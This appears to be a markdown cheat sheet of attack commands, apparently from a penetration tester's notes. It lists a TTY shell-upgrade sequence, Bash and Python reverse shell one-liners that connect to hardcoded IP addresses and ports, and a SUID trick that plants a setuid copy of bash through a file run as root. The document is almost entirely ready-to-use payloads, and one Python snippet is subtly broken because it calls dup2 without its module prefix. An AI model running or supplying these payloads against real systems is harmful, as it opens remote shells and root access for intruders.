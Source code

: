 # Shells

## Shell Upgrade

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl-z
stty raw -echo
fg <enter>
export TERM=xterm
```

```bash
stty -a  # get rows and colums
stty rows 59 columns 235  # set rows and columns
```

## Reverse Shell One-Liners

### Bash

```bash
bash -i >& /dev/tcp/10.6.0.150/1234 0>&1
bash -c 'bash -i >& /dev/tcp/10.10.14.34/4444 0>&1'

# SUID Exploit
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > <file executing as root>
echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' > /var/tmp/overwrite.sh

```

### Python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.119.165",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('10.10.14.15',4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(['/bin/sh','-i'])

import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('10.10.14.15',6666))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
p=subprocess.call(['/bin/bash','-i'])

```
